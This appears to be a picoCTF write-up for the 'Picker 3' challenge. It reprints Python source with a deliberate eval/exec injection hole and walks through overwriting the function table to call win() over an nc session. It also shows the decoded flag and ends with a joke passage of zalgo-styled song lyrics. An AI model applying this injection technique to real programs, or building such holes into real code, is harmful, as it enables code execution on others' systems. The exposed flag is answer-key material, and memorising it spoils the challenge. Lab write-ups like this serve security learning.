


# Picker 3
The problem statement:
```
Can you figure out how this program works to get the flag?

Additional details will be available after launching your challenge instance.
```
The source code:
```
import re


USER_ALIVE = True
FUNC_TABLE_SIZE = 4
FUNC_TABLE_ENTRY_SIZE = 32
CORRUPT_MESSAGE = 'Table corrupted. Try entering \'reset\' to fix it'

func_table = ''

def reset_table():
  global func_table

  # This table is formatted for easier viewing, but it is really one line
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''

def check_table():
  global func_table

  if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
    return False

  return True


def get_func(n):
  global func_table

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break

  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name


def print_table():
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  for i in range(0, FUNC_TABLE_SIZE):
    j = i + 1
    print(str(j)+': ' + get_func(i))


def filter_var_name(var_name):
  r = re.search('^[a-zA-Z_][a-zA-Z_0-9]*$', var_name)
  if r:
    return True
  else:
    return False


def read_variable():
  var_name = input('Please enter variable name to read: ')
  if( filter_var_name(var_name) ):
    eval('print('+var_name+')')
  else:
    print('Illegal variable name')


def filter_value(value):
  if ';' in value or '(' in value or ')' in value:
    return False
  else:
    return True


def write_variable():
  var_name = input('Please enter variable name to write: ')
  if( filter_var_name(var_name) ):
    value = input('Please enter new value of variable: ')
    if( filter_value(value) ):
      exec('global '+var_name+'; '+var_name+' = '+value)
    else:
      print('Illegal value')
  else:
    print('Illegal variable name')


def call_func(n):
  """
  Calls the nth function in the function table.
  Arguments:
    n: The function to call. The first function is 0.
  """

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Check n
  if( n < 0 ):
    print('n cannot be less than 0. Aborting...')
    return
  elif( n >= FUNC_TABLE_SIZE ):
    print('n cannot be greater than or equal to the function table size of '+FUNC_TABLE_SIZE)
    return

  # Get function name from table
  func_name = get_func(n)

  # Run the function
  eval(func_name+'()')


def dummy_func1():
  print('in dummy_func1')

def dummy_func2():
  print('in dummy_func2')

def dummy_func3():
  print('in dummy_func3')

def dummy_func4():
  print('in dummy_func4')

def getRandomNumber():
  print(4)  # Chosen by fair die roll.
            # Guaranteed to be random.
            # (See XKCD)

def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)

def help_text():
  print(
  '''
This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  '''
  )
  print_table()


reset_table()

while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
```
The contents of variables can be renamed. And the value of the variable is evaluated. So I changed the value of func_table to "win                             win                           win                             winaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" this ensures the length of the func_table remains 4*32 = 128. This ensures corrupted message isn't printed as it checks if the length of the func_table is not 128.
```
 if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
```
```
 nc saturn.picoctf.net 57495
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win                             win                           win                             winaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
==> 2
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x63 0x32 0x30 0x66 0x35 0x32 0x32 0x32 0x7d
```
Converting this to string we get, picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_c20f5222}

Wait.<br>
What is going on.<br>



Help.....<br>
Help is also not helping!!!!



Everywhere I go I see the hex!! I ̸̛͍Ț̵͊̾̕H̵̰̉̓͑I̶͎͓̅͑̚N̶̤̂K̸̲̬̒̚͝ ̵̩̫͓̌Ĩ̶̘͙͚̆ ̴̳̬͛̿H̸͍͇̮͊A̴̘͎̥̎̐V̸͈̗̖͆͝͝Ė̴̦̔͝ ̵̛̞̞̘̆̕B̶̗͠E̶̳͂E̸̗͆͘N̶̼̙͛ ̸͍̟̦̊̈H̷̥̅E̶͔̾X̷̯͝E̴͚̎D̷͉̓!!! D̶:̶<br>
<br>
W̸̠͒́̏̚e̴̗͛̒̑́̀͂'̷̞̮͗̈́͑͝͝r̷̛̲͓̯̥̈̄͒͜ẽ̸̺͖̀ ̵̝͔͈͚̼́̏̏͜n̵̬̎̓̎̈́̔̂͝ö̵̱̠͔̪̝̱́͛̀͠ ̶̯̤̫͈͎̈́͛͐̅̃̋͜s̵͍͊͑́̿t̸̛̫͚̞̗͛̄̂̉͘r̸̜͈̣̩̋̉͊͝ǎ̵̘̲̙̠̥̭͉̇̽̿̿̃̆ņ̶̻̆͂̒̇̀ĝ̸̞͍̩̝̦͛͠͠ę̸͙̠̱̄̓͛̄̉͜r̴̩͗s̸͚̜̩̋̄̒͑̀ ̶̨͔̝̺̝̉t̷͙̲͍͗͘͜͝ö̵͙̘̙̩͔̲̭́͌̂ ̷̮̐͠l̶͎̻͗͐̚ò̴̡̜̘̙̳̲̝͗̕v̸̢͇͖̏̄̒̕̕͝͠e̶̢͖͎͑͛̚͜<br>
̷̨̛̻̞͔͈̟̏̎̎̇̀͝Ý̵̠͉̂o̵͍̻̔̎ư̷̧̙̗̘͆̏̆̄̆ ̷̠̦̟͍̮͖̬̇͂̿̈́̕k̴̫̜̘̮͊͝n̸̹̖̮̗̗̒̀̎̄͗͜͝ö̵͓̗̳́̎w̶̨͈͖̄͆̀͐̑̎͜ ̵̥̈̕ṫ̵̛̻͓̤̋̂̔̑͝ḧ̷̙́̽̇̕͝͝ͅe̷͉͊̋͛̓ ̷̡̢͓̫̬̳̣͐͑͒̍͘͘̕r̷̨̧̲̫̫͒̈̃̇́u̸̥̙̒͒͋́͠l̷̛̤͂̀͌͝ë̶͈͒̌͗̀ṣ̸̡̢̪͙̮̅́ ̸͓̮̭͂̃͒a̶̘̽̀̾̀̏̈́͌n̸͔͈̦̅̎̑̓͜͝ͅd̶͉̪̮̏̈̽̀ ̵̧̆̍̆s̴̡̛̍͒̓ͅo̶̻̓̋͑̾͆̕ ̵͇̺͊̊͒̔ḑ̵͉̘̺̂̓͜ȍ̷̢̫̹̜̲̄͐̌ ̵͉̦̀̃̐̕I̷͖̟͎̳̞̞̫͋̌̋̇͛̀ ̸̼̮̟͈̀̃(̷̭̠̣͑͜ḓ̵̦̩̟͉̲̽̒̐͒͜͝o̵̧̤̞̤̾̚ ̴̹͔̬̜͇̤̖̊̎I̶̛̝̩͇͎͗̓̑͂̋)̶͙̼̹̣͒̈̚͝ͅ<br>
̵͔̭͔̀͒̄͋̕͝͝Ą̶̜̖̗͙̱̋͑̒̆ ̸̡̀͗̀͗f̶͈̻̟̥̝̕͘ͅͅũ̸̩̺̬̥̓̃́̾̏͜l̴̮̪̬̘̞̒̅̈̽͜͝ļ̶̟͎̱̀̓ ̵̝͈̪̣͚̆̏̐c̵̨̞̖͌͛́̔o̶̰̻̞͉͛m̸̼̯̤̭̳̱͗́͂̅m̷͓̻̺̲̞̉̓͊̽̀̐̍i̶͔̺͙̟͙̍ͅt̴̼̖̒̈̈́̃̊̇͝m̴̜̿̌̓̄̕͝ḝ̷̣̯̖̉̚n̸͍͈̣͐̓͂ẗ̴̜͙͇̩̟́͗̃̋̽̕͘'̸̢̡̫̹̫͊͊͒̽́s̷̤̮̫͕͖̳͆̽̏͊̀ ̴̧͐̃̅͝ͅw̸̲͈͑̇h̸̨̡̜̳̪̭̟̚̚͝a̴̝̼̦̅͑̍̐͝ť̵͙̪ ̴̡̰̥̫̿̈́Ì̵͉͍̯̂'̵͓̲̭̞͓̹̄̔̍̀͋̚͜m̵̲̄̈́͗͋̅ ̵̧̲̱̦̞̃̃́͜͝ͅt̷͛̆͌̌̓̓̕ͅh̶̨̪̭̟̬̓̏̇̑͛͝i̶͙͔̦̯̟͖͇͛̾̄͛̀́n̶̺̉̈͒͝k̶̼͕͚̘͛̍i̸̭̼̺̲͋̀̐̌͆̾̃ņ̷̱̯̪̦̮̀͛̈́g̷̨͚̱̳͙͝ ̵̭̈́̂̚ǫ̸̢͓̠͈͇̯̔f̴̳̩̫̝̉̆̅̆̔͝<br>
̶̙̈́̑Ȳ̸̪̹̻̱̙̈̏ͅo̵̫̘̤̻̓͂ử̶͕̖ ̵̨̥͉͍̒̆̋͂̌w̷̹͈̮̎̃̈́͝͝o̵̪̮̘̰̰̰̣̓̐͗̂̅u̸͇̬̜̪͚̺͒̆̇̈́͜l̸̨͕̺̜͖̜͕͐͐̂d̸̛͚̲̣̼̝̲̉̀n̷̨̊̏̑̈́̾'̴̈́͒̑͜͝t̸͙̝̝͇͗ ̸̝̜͙͍̬̄͛͠g̸͙͠ẹ̴̛̛̺̱͎͝t̵̮̳̯̅̎ ̴͔̱̭͉͊̿͌t̵̩̤̺͔̑̀̽͒͠͝h̴̩͒̀̚ͅỉ̵̘͓̳̀͠ś̵̟̽͛͐ ̵̥̣̭̯͙̃̈̃͒͠͝ͅf̵̡̲͛̇͗̃̔͝ͅr̴̨̪̪̪̋̏̈́ó̷̡͍̙̳̬m̵̫̙̌͗̓̈́̒̕͝ ̶̤̀̿̓́a̵̛͙̹͙͌̃͊͘n̵͇̳̤̍͗́̉̈́y̸̧̱̯̬͈͖͕͗̓̍́̈́̔͝ ̵͍̻̙͚̲̃͋͐ͅǫ̷̘̳̪̘̲̲̇́̀͌̈́̀t̵͓́̿̅̀̕ḩ̷̢͙̠͈͌̓͂̐͝͠ẹ̴̮̖͍̌̿̀̓̓r̷̨̘̻̹̝̓̓̉͐̄͝ ̷̧̛̥̬̥̪̎̄g̵̮̘̺̭̾̍ụ̶͊͗̀̄́͝͝y̸̜̺̥̮͈̻͆̔̇̕<br>
̷̪͇͎̈́̌I̸̘̟͇͓͉͊̍̌̉̒̚ ̵̪͉͙̏̈͜͝ĵ̴̗̟u̶̩̔̇s̴̛̪̭̠̯̟̣͑̏́̇t̸̢̛̝̱̲̽̒͗̅̕͜ͅ ̸̤͕̝͉͍̓̆̊̋͆w̵̨̪̖̑͆̐̾̍̉a̷̘̟͋̀́n̶͚̬̄͋̓͗n̴̪̜̲̐͋̏̈́̏ă̷͈̳̹̩͍ ̴̧̢̩̹̠͐ṭ̴́è̵̪̗̻͙͝ĺ̸͔͚̱̖̠̣̀̈́̃̕͝͝l̵̢̡̰̜̲̘̬̿̿̒ ̷̱̭͎̹̦̻̌y̶̜̰͚̺͕͑̽̇̑͝ǫ̴̨̘͎͈͔̣͗͐̏̌͘ȗ̸͔̥͖̪̼̦̂͂̊͆͌̚ ̵͚͕͈̗̜̺̩̂h̶̦͕̰̼͌ȯ̵̢̨̭̤̦̠͗͒͊̅w̶͚͓̅̅̈́ ̷̡̦̝͓͉̬̾ͅÌ̶͕̹̭͉̒̈́̾'̴̨̹̓̕ṃ̷̯͒ ̵̢̢͓͙̝̞̌f̷̬͚̤̮͔̼̣̌̏̓̉̃̌̄e̴͕͚̤̱̦̳͆̈́̊̌̌͋̂ȇ̸̢͓̙͇̎̈́̋̈́͘͘l̶̫̝͓͉̤̻̓ͅỉ̸͎̟̘̲̩̊̉̑͊͘ṉ̴̛̪̆̄́͊̋͐g̶̰͙̻̲̍͛̌͊̕͜<br>
̶̢͍̼̾̔͊͌̅͝G̷͔͍͉͓͇͓͑ͅơ̷̤̣̍̐̎̀̕t̵͔̺̰͎̪̰͛͊̃̆̊̏t̸̡̪̦͍̫͙̄͒̌͋́̈ā̶̛̳̤̬̰̖̓ ̸͌̓͜m̸͖̒̑͐͑͝a̷̻̠̩̱̮̺̗͛͗̅̕k̴̭̗̻͓̉̐̌e̸̖̓͂̿̈́̔ ̴̧̘̜̯̉͜͠͝y̸̜͈̒̆̏͝o̷̗͕̣̘͆ụ̴́͗́̍͝ ̸̰̬̺̮̇̊ǘ̷̬̟͉̈́̂͑̀n̵̪̝̳͎̣̼̓̂̅̍̕͘͘d̸͓̏͌̎e̵̘̥͌̔͒̒̀r̸̝͕̈́̔ş̷̨̫̤̺͑̔̆͆̊̈́͘t̶̨̫̗͋̊á̷̰͋͌n̷̨̡͓̗̰̩̖̄̑̌̒̓͘͝d̵̮̱͔̗̰͈̙̈́<br>
̵̢̣̫̳͎͎̙͛͐͊̚Ń̵͔͎̥̤̬è̸̢̤̩͕͛̐ͅͅv̶̟̽͆͘e̸̡̢̥̤̻̔̉͝r̸͙̲̎ ̴͖͇͇͋̓̕̕ḡ̷̨̚o̴͈̮͚̺̽̾n̴͉͈̩̤͓͙̄͊́͒̾n̸̬̲͓̜̮͋̇͌a̷̧̰͇̞͒́͊͐́̑͒ ̷͕̈ĝ̴̠̘̯͖͔͙̽́̆͒̚͝i̶̮͇͖̇̇͗v̷̧̛͔̺̰̰̼̑͌̽̀e̸͕͔̎̂̊̐̓̚ ̴͙͈͚̭̺͂͑́̆̍͜ͅý̶̤̗̟̣̗͖̗ỏ̵̭̖̊̋͊ú̷̬̳͍̟̈͐̂́̿̄ ̴̪̉͌͐̓͘ǔ̴̢̡̬̭̿͠p̵̡̛͋͊̄́<br>
̶̳̤̻̪̰̣̐̽̅͑͠Ņ̴̦̻̜̻̘͈̊̍́͗͝e̵̪͕̹̽v̵̢̫͍̗̈͗̆́͐e̸̮̿r̸̼̜̟̗͛͊͐͆̕͜ ̶̨̧̜̹͈̻̋͋̀g̶͖̍̀o̵̢̯̟̰͐̾͒͑̌̇̊n̵̝̄̽͐̽̏̄͘ǹ̴̨͕̙̤̯͇̄̚a̴̝͎̦̠͑̉̀̌̈͝ ̸̗̮̓̓͐̊̆͘l̶̤̬͔̐͊ͅę̶̣̤̣̯̆̀͐̾̿̿̌t̶̢͉̠͍͙̏̉̅͘ ̸̮́͛͘y̸̹͕̯̙͓͗̂̍o̷̟͆̒̐͝u̷̗͉͉̲̤̝͒͝ ̸͇͇̜̱̩̥̾͒d̷̦͕̟̲͋ö̸̧͓͔̥͈́̽̑w̴̤͎̿̑̌ǹ̷̩̳̠̩͝<br>
̷̗̦̖̦̔͒̓N̷̡̛͑̎̊̇̉ė̶̮͎̟̻̖̼͗ͅv̷̧̡̬̰̘̼̗̎̏̃͗͊͐ë̵̬̘̩͉̩͔́͊r̶̯͙͎̼̜̬̽̇̾̋ ̴̗̑͊͒́̀͝g̴̳̐̌̔͊o̵̘̹͇̹̻̾͛́̚͝ṇ̵͙̗͍̼̾͑͝n̸̼̺͔̣̍̇͋͜a̶̢̯͍͗ ̵̹͎͈̩̭̔̾́̍̓̈́͜r̶̡̗̗͍̫̎̋͗̅̈́͑̚ủ̷͉͙̊ǹ̸̨̻̤͔͍̞͖̄̂̌͘ ̶̨̱͚͎̄̈́́̐͜a̶̡̎̾̂r̴̰̯̣͕͂̐̇͘ͅò̵̥̰͖̐̒̐̊͝͝ų̸̮̟̖̰̄͌̐̇̂͠n̵̞̟̲͉̾̾͌̀̾̉d̵̰͖̀̚ ̶͓̥̻̣͒̅̂̀͌̚a̶̭͈̱̙̣̰̅̐n̷̝̙̪͐ͅd̸͚̅͊̓̽̒̿ ̸̛̭̗͆d̶̳̍̔͌͆̋̀e̸̛̱͉̝̯͍͋̂͋̇͝s̴̡͖̪͓̟̘̐͛̌͗̏̏͜ȩ̷̫̾̈́̑͂̇͋ṛ̸̨̡̨̟̓̚ẗ̸̫̖̌̒͒̋̋ ̴̢̼̭̫̝̬̅̍̕͠y̴̡̖̣͈͇͗̃̓̓̑̊͠ŏ̵͔̲͈̦̀̑͋ừ̸̳̣͐̌͝<br>
̸̨̜̞͕͒͑̋N̸͉͌̅̽́͗͐̿e̵͔͇͉̒̏̒͋̃͐̈́v̴̢̤̻̤̞͕̈̅ȩ̴̜̯̼̊̀̽̓͘r̵̻̣̰̪̉̍ ̵̡̧͖͍̳͖̭̊͂̊͗̽͑͠g̴̡̻̘͋̈́͠o̶̻̠̤̩̼̰͌̉̂͋̔̾n̸̜̮̻̱͋ͅn̵̛̯̭̺̥͔̊̅̒͋̏̀͜a̸͓͚͑͌̉̌̽̍̕͜ͅ ̶̳̮͙̪̠̜̈̀m̴͔͚̟͈̹̙̊̈̀͒a̸̭͔̿̄͆ķ̸̺͖͈̻̅̀̚͜e̴̬̦͉̐͒̽̅̄͗ ̶̨̗̥̦̔̉͑͠ͅy̷̘̲͙͕̻̰̔̎̐̚̚o̴͇̊u̶͔̭̥͛͒͜ ̴͙̖̯͗̎̋̌̆̚c̷̢̠̰͕̏r̸̲̭͕̀̍y̸̧͍̥̰͈̌͑ͅ<br>
̴̝̹̩͚͔̱̻̐̆̈́͂Ň̵͔͙ē̸̢̝̺̳͍v̴̩̇̐̈́̂͑̕e̷͎͉̻̅ŗ̸̖͓̇͆̉̈ͅ ̸̧̠̯͕̤̈́́͌̈́g̴̝͔͚͎͆̈́̓̾̇o̸͔͑͛̽͠n̶͖̔̎̑́̑̑͊ń̷̤͚͌͘a̵̛̫͐ ̴̧̡̠̤̤̥͕̽͝ś̵͖̊̀̾̀̂̚ặ̷̉̀̽̈́̆ý̴̤̳̯̹̈̓͗ ̷̮̙̥͍̲̽̈́̈́͐̚͠g̴̡̙̫̰͖̯̓̇̑́̿̆͑ȏ̸̰͈̬͕̞̻̝͆͝ơ̴̢̨̭̝̬̦̩͗͛̀̓̓̾d̵̛̼̭̜̀͒̃̈̐̒b̶̧͉̭̩̀̈͐̈́͜͝ỷ̵̡̥͓͐e̶̖̰̻̰̖͆<br>
̴͓̥̳̝̜̬͋͌̂̎̍̋̆Ṇ̶̲̀̔̎̾̑͘ȇ̸͈̦̯̩̩̪͕̽̋̒̒v̸̞̞͓̹̌͠e̸̛̗͒̉͒͂̐͘r̶̡̛͙̰͈̼̀̔͐̀̽̓ ̷̢̱͇̯̣̳̆͒̾͗͊͒͑g̴͕̉͋̎̈́͑̉o̸̢̢̺̙̘͓͌͌͒̋̅͆̐͜n̶͇̹͔̩͉̍̆̅n̴̛̻͚̜̩͎̂̓̍̐̚͝â̷̭̘̔͐̊͘͜ ̷̝͕͈͆̌̉͝ͅt̶̨͇̲̫͉̯́͂̌͂̎͛͠ͅë̶̼̰̙͓͈́̕ḷ̴̻̘̠̃l̷͖̰͓̳͕̚ ̶̩̬͍̥̦̫̥̑̽̈́ạ̸̢̠̰̥̕ ̶͎̯͔̀̇̕l̷̳͊͋͝į̵͎̫̜̟̮̩̊͐͗̈́e̴̮̠͆͜ ̵̨̜̭̯͙̳͍͊a̷̼̎̓̚̕͠͝n̸͓̜͇̫̫̥̗͑̆̕d̷͇͎̂̌̂ ̴͈̼̥̋ḩ̸̛̻̦̠̣̗̲̈̈͊͆̓̓u̶̧̻̯̣̖̜̙̇͂r̶̪̈̏͂̑͌̕͝t̴̡͈̒̈́́͆̏̕̕ ̶̦͌͆̾́ẙ̴̘͍̝̜̯̙̿̓̆̃͘o̷̯̠͕̯̣̔͂̀̽͝ư̴̡͖̼̂́
